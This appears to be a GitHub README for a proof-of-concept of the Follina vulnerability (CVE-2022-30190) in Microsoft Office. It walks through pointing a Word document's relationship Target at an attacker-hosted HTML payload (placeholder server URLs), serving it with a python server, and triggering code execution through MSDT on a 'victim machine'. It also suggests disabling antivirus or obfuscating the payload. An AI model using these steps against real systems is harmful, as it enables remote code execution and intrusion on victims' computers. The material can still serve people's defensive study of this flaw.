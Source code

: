 # POC-msdt-Follina

OK, as you know, or don't know, CVE-2022-30190 vulnerability can be described as like an attacker makes some MS Office, puts inside it's structure some link ( html ), and with the help of that, he manage run a malicious code. OLE object (word/_rels/document.xml.rels)
<br>
Data phat puts inside, may describe link in the tags with attributes "TYPE=" and "Target=". Link at the target attribute takes to the HTML, which in our case is our PAYLOAD, so that triggers the MSDT protocol. For example -- > "Target="http://Server-Host-Payload/Payload.html".

Now, when opened, the attacker document start to run, and trigger the MSDT.
The document can run even in ProtectedMode, and more - You dont even need macros enabled.

You can Modifiy the Payload at www, and insdert what ever you want, just to check it on your victim machine.
For example --- > After edit the file with Gedit, at [char]34+'[Some/Base64/Syntax/', you can replace it with another Payload of yours.


This Document is already put together, just for the POC, so all you have to change is the Payload script, which in our case is the 'index.htmn' site, which holds inside of it a '<script>' tags that stored our Payload, and secondly, at /doc/word/_rels directory, thtere is a file named 'document.xml.rels. Edit it, and replace the 'http://YourServer:8000/index.html' with yours.

  
 After made all of that, just rezip the doc file, you can use 7-zip of whatever you like, open a python server, and good luck. Was Tested on  Microsoft Office Document 2007 with no problems, tell me if you managed to get it work on new versions.
  
  For now, dont forget to de-active the real time protection/firewall, else you can obfuscate your PAYLOAD, but for this is all for now.
  # Educational Purpose Only!

  ![POC-test](https://user-images.githubusercontent.com/90532971/172916363-51b0b457-fb9a-44a2-994d-0f396c07e547.gif)

  # Usage
  Made a little py script which can help for these who have a little trouble.
  1. Put your local machine ip, with 'http' where the payload is, for example: http://Server:Port/Pay.html
  2. choose a command to be executed, for example: "notepad" or using ps scripts.
*Notice: When running the py script, you cannot run it again on the same 'www' directory and 'doc'.
  if you want to use it again, copy the  inside 'BackUp' directory again, and run the py again.
  
